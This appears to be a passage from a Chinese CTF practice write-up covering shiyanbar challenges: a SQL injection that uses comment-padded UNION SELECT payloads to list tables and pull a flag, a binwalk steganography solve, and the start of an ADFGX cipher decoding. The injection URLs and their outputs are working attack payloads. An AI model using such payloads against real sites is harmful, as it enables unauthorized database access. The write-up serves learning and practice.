     ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: flag
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: web_1

##### 0x01 在倒数第二个表名中看到了flag，于是尝试查询flag。

    http://ctf5.shiyanbar.com/web/index_2.php?id=1'/**/union/**/select/**/flag/**/from/**/flag.flag/**/where/**/'1'='1
回显：

    SELECT command denied to user 'web1'@'localhost' for table 'flag'

##### 0x02 再次构造，将表换为回显中提到的web1

    http://ctf5.shiyanbar.com/web/index_2.php?id=1'/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1
回显：

    ID: 1'/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1
    name: baloteli
    
    ID: 1'/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1
    name: flag{Y0u_@r3_5O_dAmn_90Od}

# 7.28
## 0x00 哆啦A梦_Stega
打开链接后发现给了一张图片，按照常规思路用stegsolve打开查看经常藏flag的数据区，然而什么都没有发现。拖进kali，执行命令：

    root@kali:~/CTF/Shiyanbar# binwalk ameng.jpg -e
    
    DECIMAL   HEXADECIMAL DESCRIPTION
    --------------------------------------------------------------------------------
    0 0x0 JPEG image data, JFIF standard 1.01
    88665 0x15A59 JPEG image data, JFIF standard 1.01

output出两张图片，其中一张就是flag

## 0x01 紧急报文_Misc
> 题目
> 解密一下这份截获的密文吧，时间就是机会！
> 
> FA XX DD AG FF XG FD XG DD DG GA XF FA
> 
> flag格式:flag_Xd{hSh_ctf:******} 

首先，这是一道古典密码题，ADFGX第一步的解密。
下面给出加密表：

        A  D  F  G   X 
    A | p  h  q  g   m 
    D | e  a  y  n   o 
    F | f  d  x  k   r
    G | c  v  s  z   w 
    X | b  u  t  i/j l
对照上表可知：

